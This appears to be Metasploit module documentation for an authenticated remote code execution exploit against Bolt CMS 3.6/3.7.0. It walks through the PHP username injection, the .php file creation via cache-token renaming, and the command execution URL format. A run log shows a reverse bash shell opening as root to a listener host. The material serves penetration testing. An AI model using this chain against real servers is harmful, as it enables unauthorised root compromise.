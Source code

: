 ## Vulnerable Application
This module exploits multiple vulnerabilities in Bolt CMS version 3.7.0 and 3.6.* in order to execute arbitrary commands as root.

This module first authenticates to Bolt CMS and visits the profile page to obtain a special token.
This token is then used to change the username in /bolt/profile to a PHP `system($_GET[""])` variable, using a generated random name.
If this succeeds, the target may be vulnerable.
The module then proceeds by issuing an HTTP GET request for /bolt/overview/showcases in order to obtain a CSRF token to be used later.

Next, the module obtains a list of filename tokens from `/async/browse/cache/.sessions.`
These tokens are used to create files with the blacklisted `.php` extention via HTTP POST requests to `/async/folder/rename`.
With the CSRF token obtained before, it is possible to create .php files by "renaming" these cache tokens.
While most (if not all) available tokens can be used to created .php files in the /root directory on the server,
the resulting files cannot always be used to execute commands.
The module excludes tokens with a filesize of under 2000 bytes, as they can't ever be used for this purpose. For the remaining tokens,
it seems the easiest way to identify a valid one is to use each token to create a .php file
and then check the contents of that file.
The module does exactly this, deleting any .php files that can't be used
until it finds a file for which the "displayname" value is an empty string ("").
This value indicates that the profile username matching this token is the `$_GET` variable generated earlier,
and that the file can be used to execute arbitrary commands.
If a valid .php file is created, the module executes the payload as root via an HTTP get request in this format:
`/files/<rogue_PHP_file>?<$_GET_variable>=<payload>`

The module requires valid credentials for a Bolt CMS user. This module has been successfully tested on Bolt CMS 3.7.0.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/bolt_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Bolt CMS account]`
6. Do: `set PASSWORD [password for the Bolt CMS account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### FILE_TRAVERSAL_PATH
This is the traversal path to get from the `/files/` directory on the web server to the `/root` directory on the server.
It is used by the module to write rogue .php files to /root. The default value is `../../../public/files`.

### PASSWORD
The password for the Bolt CMS account to authenticate with. This option is required.

### TARGETURI
The base path to Bolt CMS. The default value is `/`.

### USERNAME
The username for the Bolt CMS account to authenticate with. This option is required.


## Scenarios
### Bolt CMS 3.7.0 running on CentOS 7
```
msf5 exploit(linux/http/bolt_authenticated_rce) > show options
                                                                                                                                                                                                                                           
Module options (exploit/linux/http/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Path from the "files" directory to the root folder
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.4            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.10   yes       The listen address (an interface may be specified)
   LPORT  4444           yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf5 exploit(linux/http/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[+] Successfully changed the /bolt/profile username to PHP $_GET variable "nbxnh".
[*] Found 6 potential token(s) for creating .php files.
[+] Used token a0293d73f435515024c2c5d37a to create phfsbswowfp.php.
[*] Attempting to execute the payload via "/files/phfsbswowfp.php?nbxnh=`payload`"
[+] Payload executed!
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.4:52008) at 2020-05-26 09:15:19 -0400

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
